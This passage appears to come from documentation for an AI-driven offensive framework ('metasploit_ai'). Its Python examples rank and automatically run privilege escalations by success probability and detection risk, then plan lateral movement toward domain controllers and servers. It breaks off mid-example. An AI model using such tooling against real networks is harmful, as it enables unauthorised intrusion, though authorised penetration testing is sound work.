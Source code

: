 Use AI to identify and execute privilege escalation opportunities.

```python
# AI-powered privilege escalation
from metasploit_ai.privilege_escalation import AutoEscalator

escalator = AutoEscalator()

# Analyze escalation opportunities
escalation_opportunities = escalator.find_opportunities(session_id)

print("Privilege Escalation Opportunities:")
for opportunity in escalation_opportunities:
    print(f"\nMethod: {opportunity['method']}")
    print(f"  Success Probability: {opportunity['success_probability']:.2f}")
    print(f"  Detection Risk: {opportunity['detection_risk']:.2f}")
    print(f"  Prerequisites: {opportunity['prerequisites']}")
    print(f"  Impact: {opportunity['impact']}")

# Execute highest probability escalation
best_opportunity = max(escalation_opportunities, 
                      key=lambda x: x['success_probability'])

escalation_result = escalator.execute_escalation(session_id, best_opportunity)

if escalation_result['success']:
    print(f"\nPrivilege escalation successful!")
    print(f"New privileges: {escalation_result['new_privileges']}")
    print(f"Execution time: {escalation_result['execution_time']}s")
else:
    print(f"\nEscalation failed: {escalation_result['error']}")
```

## Lateral Movement Strategies

### AI-Optimized Network Traversal

Use AI to plan optimal lateral movement through the network.

```python
# Intelligent lateral movement
from metasploit_ai.lateral_movement import NetworkTraverser
from metasploit_ai.ai import MovementPlanner

traverser = NetworkTraverser()
movement_planner = MovementPlanner()

# Map network topology from compromised host
network_map = traverser.map_network_from_host(session_id)

print("Network Topology:")
for subnet in network_map['subnets']:
    print(f"  Subnet: {subnet['cidr']}")
    print(f"    Hosts: {len(subnet['hosts'])}")
    print(f"    Services: {len(subnet['services'])}")
    print(f"    Criticality: {subnet['criticality_score']}")

# Plan lateral movement
movement_plan = movement_planner.plan_movement(
    current_position=session_id,
    network_map=network_map,
    objectives=['domain_controller', 'file_servers', 'database_servers']
)

print("\nLateral Movement Plan:")
```